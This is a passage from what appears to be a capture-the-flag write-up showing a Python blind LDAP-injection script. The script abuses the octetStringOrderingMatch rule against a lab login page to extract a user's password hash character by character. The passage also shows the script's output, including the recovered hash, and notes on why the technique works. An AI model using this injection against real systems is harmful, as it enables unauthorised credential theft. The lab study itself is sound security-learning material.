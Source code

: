               if len(attribute_value[19:])==85 and len(token) % 3 == 2 :
                  if x==0: token = token + "0"

              payload = "ldapuser))(&(uid=ldapuser)(userPassword:2.5.13.18:="
              ldap_injection = payload + "%s%cf" % (token, hex(x)[-1])

              if ldap_injection[-3:] == "0ff":
                  hex_val = "0x" + ldap_injection[-6:-4]
                  token = token[:-4] + hex(int(hex_val, 16) + 1)[-2:] + "\\"
                  ldap_injection = payload + "%s%cf" % (token, hex(x)[-1])
          
              data = { "inputUsername": u.quote(ldap_injection) }
              req = r.post("http://10.10.10.122/login.php", data=data)

              if x==0 and len(token) % 3 == 2 : token = token[:-1] + str(int(token[-1]) - 1) + "0"
              elif "Cannot login" not in req.text:
                  if len(token) % 3 == 2 : token = token + hex(x)[-1]
                  else: token = token + hex(x+1)[-1]
                  break
        ```
        - Run using `python3`:
          ```
          {
          {c
          {cr
          {cry
          {cryp
          {crypt
          {crypt|
          {crypt}#
          {crypt}$5
          ...
          {crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G-
          {crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G.
          ...
          {crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G.0T9XicaZGNOqp9FfdbS5N2hT0exXi23
          {crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G.0T9XicaZGNOqp9FfdbS5N2hT0exXi245
          {crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G.0T9XicaZGNOqp9FfdbS5N2hT0exXi246
          {crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G.0T9XicaZGNOqp9FfdbS5N2hT0exXi2460
          ```

        __NOTE(S)__:
        - The `userPassword` attribute is a bit special:
          - According to Microsoft, `userPassword` has an [Object(Replica-Link) syntax](https://docs.microsoft.com/en-us/windows/desktop/adschema/a-unixuserpassword)
          - [Object(Replica-Link)](https://ldapwiki.com/wiki/Replica%20Link) has an OID 2.5.5.10 which is an __Octet String__
          - __Octet Strings__ has a different set of [operations](https://ldap.com/matching-rules/):
            ```
            Octet string matching rules are very simple rules that perform byte-by-byte comparisons of octet string 
            values. All capitalization and spacing is considered significant. 
            ```
          - `ldapuser))(&(uid=ldapuser)(userPassword:2.5.13.18:=`
            ```
            octetStringOrderingMatch (OID 2.5.13.18): An ordering matching rule that will perform a bit-by-bit 
            comparison (in big endian ordering) of two octet string values until a difference is found. The first 
            case in which a zero bit is found in one value but a one bit is found in another will cause the value 
            with the zero bit to be considered less than the value with the one bit. 
            ```